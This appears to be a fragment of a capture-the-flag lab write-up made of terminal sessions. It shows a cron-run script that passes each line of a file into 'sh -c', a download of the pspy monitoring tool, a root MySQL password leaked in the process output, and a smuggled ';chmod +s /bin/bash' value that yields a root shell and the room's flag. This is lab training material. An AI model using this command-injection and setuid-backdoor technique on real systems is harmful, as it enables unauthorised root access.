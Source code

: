 ```bash
:~/ftp/files$ cat script
#!/bin/sh
while read line;
do
  /usr/bin/sh -c "echo $line";
done < /home/adrian/punch_in
```

```bash
:~/ftp/files$ cat .notes
That silly admin
He is such a micro manager, wants me to check in every minute by writing
on my punch card.

He even asked me to write the script for him.

Little does he know, I am planning my revenge.
```

```bash
:~/ftp/files$ wget http://10.10.178.72:8000/pspy64
...

pspy64                              100%[===================================================================>]   2.94M  --.-KB/s    in 0.01s   
...

adrian@ip-10-10-4-197:~/ftp/files$ chmod +x pspy64


2025/07/13 05:06:24 CMD: UID=113  PID=1095   | /usr/sbin/mysqld 
2025/07/13 05:06:24 CMD: UID=0    PID=101    | 
2025/07/13 05:06:24 CMD: UID=0    PID=100    | 
2025/07/13 05:06:24 CMD: UID=0    PID=10     | 
2025/07/13 05:06:24 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2025/07/13 05:07:01 CMD: UID=0    PID=5649   | /usr/sbin/CRON -f 
2025/07/13 05:07:01 CMD: UID=0    PID=5648   | /usr/sbin/cron -f 
2025/07/13 05:07:01 CMD: UID=0    PID=5647   | /usr/sbin/CRON -f 
2025/07/13 05:07:01 CMD: UID=0    PID=5650   | /bin/sh -c /usr/bin/mysql -h localhost -u root -p'SuperSqlP@ss3' -e 'flush hosts;' 
2025/07/13 05:07:01 CMD: UID=0    PID=5653   | /bin/sh -c /usr/bin/mysql -h localhost -u root -p'SuperSqlP@ss3' -e 'flush hosts;' 
2025/07/13 05:07:01 CMD: UID=0    PID=5652   | /usr/sbin/CRON -f 
2025/07/13 05:07:01 CMD: UID=1000 PID=5654   | /bin/sh -c /usr/bin/bash /home/adrian/punch_in.sh 
2025/07/13 05:07:01 CMD: UID=0    PID=5655   | /usr/sbin/CRON -f 
2025/07/13 05:07:01 CMD: UID=0    PID=5656   | /etc/badr/badr --config /etc/badr/rules.yaml --config /etc/badr/room.config.yaml > /var/log/badr.log 2>&1 
2025/07/13 05:07:01 CMD: UID=1000 PID=5658   | /usr/bin/bash /home/adrian/punch_in.sh 
```


```bash
adrian@ip-10-10-4-197:~$ echo ";chmod +s /bin/bash" >> punch_in
adrian@ip-10-10-4-197:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
adrian@ip-10-10-4-197:~$ /bin/bash -p
bash-5.0# id
uid=1000(adrian) gid=1000(adrian) euid=0(root) groups=1000(adrian)
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
check_in.sh  root.txt  snap
bash-5.0# cat root.txt
THM{C0mm@nD_Inj3cT1on_4_D@_BruT3}
bash-5.0#
```